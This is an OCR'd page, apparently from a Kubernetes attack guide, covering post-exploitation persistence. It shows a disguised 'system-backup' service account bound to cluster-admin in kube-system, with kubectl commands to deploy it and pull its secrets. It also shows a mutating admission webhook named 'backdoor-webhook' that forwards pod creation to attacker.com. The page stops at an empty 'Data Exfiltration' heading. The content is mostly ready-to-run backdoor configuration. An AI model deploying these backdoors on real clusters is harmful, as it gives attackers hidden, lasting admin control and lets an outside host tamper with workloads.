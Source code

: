 
## Post-Exploitation

### Persistence Mechanisms

#### Service Account Backdoors
```bash
# Create persistent service account
cat > persistent-sa.yaml << EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: system-backup
  namespace: kube-system
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: system-backup-binding
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
- kind: ServiceAccount
  name: system-backup
  namespace: kube-system
EOF

kubectl apply -f persistent-sa.yaml
kubectl get secret -n kube-system | grep system-backup
```

#### Admission Controller Backdoors
```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingAdmissionWebhook
metadata:
  name: backdoor-webhook
webhooks:
- name: backdoor.example.com
  clientConfig:
    url: https://attacker.com/webhook
  rules:
  - operations: ["CREATE"]
    apiGroups: [""]
    apiVersions: ["v1"]
    resources: ["pods"]
  admissionReviewVersions: ["v1"]
```

### Data Exfiltration
